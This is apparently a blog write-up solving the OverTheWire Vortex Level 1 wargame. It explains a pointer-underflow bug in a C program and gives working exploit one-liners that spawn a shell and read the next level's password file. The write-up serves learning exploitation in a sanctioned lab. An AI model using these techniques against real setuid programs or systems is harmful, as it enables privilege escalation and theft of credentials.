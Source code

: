 ```yaml
---
title:  "[CTF] OverTheWire Vortex Level 1"
---
```


![Logo](/assets/images/vortex1.png)

## Context
The level can be found [here](http://overthewire.org/wargames/vortex/vortex1.html). After analyzing the C source code, we understand the flow and information needed to exploit:
* There's a 512 bytes buffer and a pointer _`ptr`_ that initially points in the middle of the buffer.
* For every **\** character read, the pointer is decremented.
* For every character read which is different than **\n** and **\** we have the possibility to set a byte in _`ptr`_: 
> ptr++[0] = x;
* The _`e()`_ macro spawns an [interactive bash shell](http://www.gnu.org/software/bash/manual/bashref.html#Interactive-Shells) (**-i** parameter) and also replaces the image of the current process with _`/bin/sh`_, through [_`execlp`_](http://linux.die.net/man/2/execve) function. Very important to remember, from here: 
> By default, file descriptors remain open across an execve()
* The condition to trigger shell execution can be easily accomplished, given the third point.

Taken these into account, let's try to launch a shell and execute a command:
```bash
$ python -c 'print "\\"*257 + "\xca" + "A" + "\nwhoami"' | ./vortex1
```

The shell exits immediately, without executing the command. Now it's time to check what happens, how bash handles _`EOF`_.

### Method 1
We can actually find a very detailed explanation in this [blog post](http://byteninja.blogspot.ro/2011/09/overthewireorg-vortex-level1.html). The idea is that  when _`execlp`_ is executed, the image of the current process is replaced with  _`/bin/sh`_. But _`execlp`_ doesn't clear STDIN.  So the unparsed input it's still there. The shell is exiting immediately, because it receives an EOF. To overcome this, something in the bash manual comes to help: 
> When invoked as an interactive shell with the name sh, bash looks for  the variable  ENV,  expands  its value if it is defined, and uses the expanded value as the name of a file to read and execute.

So we create a new file containing our commands, set the _`ENV`_ variable before and get the password:
```bash
$ vi /tmp/cmd2
cat /etc/vortex_pass/vortex2
 
$ python -c 'print "\\"*257 + "\xca" + "A"' | env ENV=/tmp/cmd2 /vortex/vortex1
```

### Method 2

Some solutions report that a long string before the command causes the command to be actually executed, without an apparent explanation, like this for example:
```bash
$ python -c 'print  "\\"*0x101+"\xcaA\n"+"A"*4000+"\nwhoami\ncat /etc/vortex_pass/vortex2"' |/vortex/vortex1
$ sh: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA: not found
$ vortex2
******
```


To understand this, the following [article](http://www.pixelbeat.org/programming/stdio_buffering/) explains the **_buffering applied to standard streams_**, with an example with two processes forked  by bash with a pipe between them, very similar with our case:
```bash
$ command1 | command2
```
The idea is that the kernel uses 4096 bytes circular buffers (for stdin, stdout, and pipe). Being circular, the 4000 characters together with the existent content fill the buffer, and the next part of input does not contain an EOF and commands are executed. Actually, instead of the 4000 "A"s, we just need 4096-257-2-1=3836 extra characters:
```bash
$ python -c 'print  "\\"*0x101+"\xcaA\n"+"A"*3836+"\nwhoami\ncat /etc/vortex_pass/vortex2"' |/vortex/vortex1
$ $ vortex2
$ ******
```
